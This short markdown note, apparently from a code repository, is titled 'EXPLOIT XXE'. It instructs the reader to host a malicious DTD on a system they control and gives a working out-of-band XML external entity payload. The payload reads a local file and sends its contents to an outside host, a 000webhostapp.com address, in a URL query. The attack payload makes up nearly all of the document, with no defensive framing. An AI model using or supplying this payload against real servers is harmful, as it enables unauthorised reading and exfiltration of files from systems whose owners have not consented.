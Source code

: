 # EXPLOIT XXE
You must host the malicious DTD on a system that you control.
An example of a malicious DTD to exfiltrate the contents of the /hellothere.txt file is as follows:

> <!ENTITY % file SYSTEM "file:///hellothere.txt">
> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://sanglv11.000webhostapp.com/?x=%file;'>">
> %eval;
> %exfiltrate;
